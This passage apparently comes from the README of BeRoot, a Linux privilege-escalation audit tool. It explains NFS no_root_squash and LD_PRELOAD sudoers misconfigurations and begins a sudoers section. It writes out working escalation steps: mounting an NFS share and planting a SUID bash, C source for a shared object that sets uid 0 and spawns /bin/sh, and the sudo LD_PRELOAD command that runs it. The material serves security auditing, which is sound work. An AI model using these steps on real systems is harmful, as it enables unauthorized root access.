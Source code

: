 If __no_root_squash__ appears in `/etc/exports`, privilege escalation may be done. More information can be found [here](https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/).

Exploitation:
```
mkdir /tmp/nfsdir  # create dir
mount -t nfs 192.168.1.10:/shared /tmp/nfsdir # mount directory 
cd /tmp/nfsdir
cp /bin/bash . 	# copy wanted shell 
chmod +s bash 	# set suid permission
```

LD_PRELOAD
----

If __LD_PRELOAD__ is explicitly defined on sudoers file, it could be used to elevate our privilege. \

For example: 
```
Defaults        env_keep += LD_PRELOAD
```

Create a share object:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```

Compile it:
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

If you have a binary that you could launch with sudo and NOPASSWD, launch it with LD_PRELOAD pointing to your shared object:
```
sudo LD_PRELOAD=/tmp/shell.so find
```

More information can be found [here](http://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/).

Sudoers file
----

Most of privilege escalations on Linux servers are done using bad sudo configurations. This configuration can be seen in __/etc/sudoers__ file. \
To better understand the BeRoot workflow, you should have an idea on how a sudoers line is composed.  
